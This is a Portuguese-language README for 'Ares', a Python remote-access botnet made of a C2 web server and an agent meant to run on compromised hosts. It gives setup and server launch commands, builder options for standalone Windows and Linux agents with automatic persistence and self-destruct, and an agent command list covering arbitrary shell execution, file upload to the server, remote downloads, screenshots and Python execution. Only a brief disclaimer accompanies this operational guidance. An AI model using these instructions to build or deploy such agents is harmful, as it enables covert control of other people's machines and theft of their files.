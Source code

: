 ![image](https://cdn.freebiesupply.com/logos/thumbs/2x/ares-01-logo.png)

# Ares

Ares é uma botnet do tipo RAT (Remote Access Tool) escrita em Python.

__ADVERTÊNCIA: Utilize este software apenas de acordo com a legislação atual. O uso indevido deste software pode suscitar questões legais e éticas pelas quais não apoio e nem me responsabilizo .__

Ares foi desenvolvido em cima de duas aplicações principais:

- Um servidor C2 com interface web para gerência e administração dos agentes (bot master and C²)
- Um programa agente (agent), que é executado no host comprometido, e garante a comunicação com o C2

A interface da Web pode ser executada em qualquer servidor executando o Python. O agente pode ser compilado em executáveis nativos usando o ** pyinstaller **.

## Setup

Instalando as dependências:

```
apt install python-pip -y
cd Ares
pip install -r requirements.txt
```

Inicializando a base de dados:

```
cd server
./ares.py initdb
```

Se quiser compilar executáveis para Windows, rode as configurações do Wine (opcional):

```
./wine_setup.sh
```

## Server

Rode o webserver em python (suporta nodo debbuging):

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Ou rode usando gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

Seu servidor estará acessível em http://localhost:8080

## Agent

Rode o agente em python (altere as opções do config.py para adaptar ao seu cenário):

```
cd agent
./agent.py
```

Construa um binário standalone:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

Para ver uma lista de opções suportadas, rode ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executa o comando em um shell e retorna sua saída.

upload <local_file>
Faz uploads <local_file> para o servidor.

download <url> <destination>
Faz o downloads de um arquivo usando HTTP(S).

zip <archive_name> <folder>
Cria um arquivo zip no diretório especificado.

screenshot
Tira um screenshot.

python <command|file>
Executa um comando Python ou um arquivo local.

persist
Instala o agente (persistência).

clean
Desistala o agente.

exit
Mata o processo do agente.

help
Exibe este help.
```
